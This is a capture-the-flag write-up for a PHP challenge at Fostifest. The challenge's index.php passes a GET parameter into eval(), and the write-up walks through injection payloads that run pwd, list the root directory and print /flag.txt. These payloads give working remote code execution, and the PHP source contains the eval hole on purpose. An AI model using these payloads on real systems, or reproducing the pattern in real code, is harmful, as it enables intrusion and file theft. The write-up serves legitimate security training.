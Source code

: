 
## Si paling eval (Fostifest)

**Description:** - <br>
**Target:** http://103.187.146.174:8080/

## Steps
The site showed the index.php source code
```
<?php  
if (isset($_GET['nama'])) {  
$cmd = $_GET['nama'];  
  
print eval("print 'Hello $cmd';");  
} else {  
highlight_file(__FILE__);  
}  
?>
```
From the source code and title, we know that the objective of this challenge is to leverage `eval()` in PHP to gain code execution. We will use `nama` parameter at the end of the URL.
Putting in `http://103.187.146.174:8080/?nama= ';print exec('pwd'); echo' ` and submitting we get `Hello /var/www/html` , which confirming that command execution is successful. 

Searching through the usual directories, we are unable to find the flag. Therefore, we need to list directories.
```
http://103.187.146.174:8080/?nama= '; print_r(glob('/*')); echo'
```
which yields,
```
Hello Array ( [0] => /bin [1] => /boot [2] => /dev [3] => /etc [4] => /flag.txt [5] => /home [6] => /lib [7] => /lib64 [8] => /media [9] => /mnt [10] => /opt [11] => /proc [12] => /root [13] => /run [14] => /sbin [15] => /srv [16] => /sys [17] => /tmp [18] => /usr [19] => /var )
```
Hence, we found a file called `flag.txt` in the root directory which we can print with the last payload.
```
http://103.187.146.174:8080/?nama='; system('cat /flag.txt'); echo'
```

```
Flag: Fostifest{REDACTED}
```
## References:
https://ctftime.org/writeup/16595
https://hackin7.github.io/Generated/CTF_Writeups/2021/Sieberrsec%20CTF%202.0/Training/Calculator%20Evaluation/index.html
